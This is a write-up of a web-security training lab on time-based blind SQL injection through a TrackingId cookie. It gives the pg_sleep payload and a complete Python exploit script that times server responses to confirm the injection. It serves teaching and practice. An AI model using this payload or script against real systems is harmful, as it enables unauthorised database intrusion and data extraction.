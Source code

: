 ```yaml
---
title: 'SQLi Lab 14'
description: 'Blind SQL injection using time delays to infer information'
---
```



## Blind SQL injection with time delays

<div style="text-align: justify;">
  This lab demonstrates how to exploit a blind SQL injection vulnerability using time delays. The application uses a `TrackingId` cookie for analytics, but the results of the SQL query are not returned, and the application's response does not differ whether the query returns rows or errors. By injecting a conditional time delay, it is possible to infer that the SQL query was executed, which is a fundamental technique in blind SQL injection attacks.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The application is vulnerable via the `TrackingId` cookie.
- The payload `' || pg_sleep(10)--` introduces a 10-second delay.
- By measuring the response time, it can be confirmed that the SQL injection executed successfully.
- This technique can be extended to extract data one bit at a time in blind SQL injection attacks.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import time

# ---------------------------
# Configuration
# ---------------------------

# Disable SSL warnings for lab/testing purposes
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: route traffic through Burp Suite for inspection
PROXIES = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# Time delay to trigger for blind SQL injection
TIME_DELAY = 10  # seconds

# ---------------------------
# Functions
# ---------------------------

def check_burp():
    """
    Verify that Burp Suite proxy is running.
    Exit if it's not reachable.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite proxy not running at 127.0.0.1:8080. Start it and retry.")
        sys.exit(1)
    print("[+] Burp Suite proxy detected.")


def send_sqli_request(url, delay=TIME_DELAY, proxies=PROXIES):
    """
    Send a time-based blind SQL injection payload via the TrackingId cookie.
    Measures response time to detect success.
    """
    payload = f"'||pg_sleep({delay})--"
    cookies = {"TrackingId": payload, "session": "dummy"}

    print(f"[+] Sending payload: {payload}")
    start_time = time.time()

    try:
        response = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")
        return None

    elapsed = time.time() - start_time
    print(f"[+] Response time: {elapsed:.2f} seconds")

    # Check if response time indicates SQL injection
    if elapsed >= delay:
        print("[+] SQL Injection likely successful (time delay triggered).")
    else:
        print("[-] No significant delay detected. Payload may not have executed.")

    return elapsed


def main():
    # Main entry point. Validates arguments, checks Burp, and executes exploit.
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    print(f"[+] Target URL: {url}")

    # Optional: ensure Burp Suite proxy is running
    check_burp()

    # Execute the blind SQL injection test
    send_sqli_request(url)


# ---------------------------
# Entry point
# ---------------------------
if __name__ == "__main__":
    main()
```